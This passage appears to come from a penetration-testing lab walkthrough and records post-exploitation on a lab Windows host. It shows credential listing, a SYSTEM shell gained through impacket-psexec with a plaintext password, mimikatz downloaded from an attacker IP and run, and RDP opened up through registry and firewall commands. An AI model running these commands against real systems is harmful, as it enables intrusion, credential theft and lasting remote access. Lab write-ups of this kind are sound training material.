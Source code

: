 Credential search as admin:
```powershell
cmdkey /list

# Currently stored credentials:
# * NONE *
```

# System access

We can also get a shell as SYSTEM:
```bash
impacket-psexec Administrator:'Almost4There8.?'@192.168.147.96

# C:\Windows\system32> whoami
# nt authority\system
```

## Mimi

Using the system shell, download and execute mimi on the target host:
```powershell
iwr -uri http://192.168.45.241/mimikatz.exe -Outfile mimikatz.exe

.\mimikatz.exe
```
=> no new credentials

# Enable RDP on VM02

Add Administrator to RDP group and start the server:
```powershell
net localgroup "Remote Desktop Users" Administrator /add

# Set "fDenyTSConnections" registry value to "0", which enables RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Enable the built-in firewall rule group for Remote Desktop, opening port 3389
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

# Ensure the service is running. It will tell you if it's already started.
net start termservice
```

Now we can RPD login as Administrator:
```bash
xfreerdp /u:'administrator' /p:'Almost4There8.?' /v:192.168.190.96 /cert:ignore +clipboard /dynamic-resolution
```

Open ports:
```powershell
netstat -a

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            era:0                  LISTENING
  TCP    0.0.0.0:445            era:0                  LISTENING
  TCP    0.0.0.0:3306           era:0                  LISTENING
  TCP    0.0.0.0:3389           era:0                  LISTENING
  TCP    0.0.0.0:5040           era:0                  LISTENING
  TCP    0.0.0.0:5985           era:0                  LISTENING
  TCP    0.0.0.0:7680           era:0                  LISTENING
```